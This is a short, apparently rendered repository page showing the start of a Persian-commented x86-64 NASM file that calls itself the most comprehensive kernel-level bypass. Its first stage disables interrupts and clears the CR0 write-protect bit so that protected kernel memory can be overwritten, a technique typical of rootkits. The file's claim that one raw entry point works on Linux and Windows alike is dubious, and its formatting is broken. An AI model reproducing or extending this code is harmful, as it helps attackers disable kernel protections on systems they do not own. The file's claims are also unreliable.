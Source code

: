 
---

### 📄 File: `OS-main/Examplen_of_bypasses/Bypass_sample-1.asm`

```asm
### یکی از جامع‌ترین بایپس های سطح هسته با پیاده‌سازی کامل اسمبلی x86-64

```nasm
; =====================================================================
; OMNI_BYPASS_CORE: جامع‌ترین سیستم بایپس سطح هسته با پیاده‌سازی اسمبلی
; طراحی شده برای x86-64 - سازگار با لینوکس 5.4+ و Windows 10/11
; =====================================================================

section .text
global _start

_start:
    ; ██████████████████████████████████████████████████████████████████████
    ; ███ مرحله 1: غیرفعال‌سازی حفاظت‌های حافظه و وقفه‌ها
    ; ██████████████████████████████████████████████████████████████████████
    
    cli                         ; غیرفعال‌کردن وقفه‌ها
    mov rax, cr0
    and rax, 0xfffffffffffeffff ; پاک‌کردن بیت WP (CR0[16])
    mov cr0, rax                ; غیرفعال‌کردن حفاظت نوشتن حافظه
    
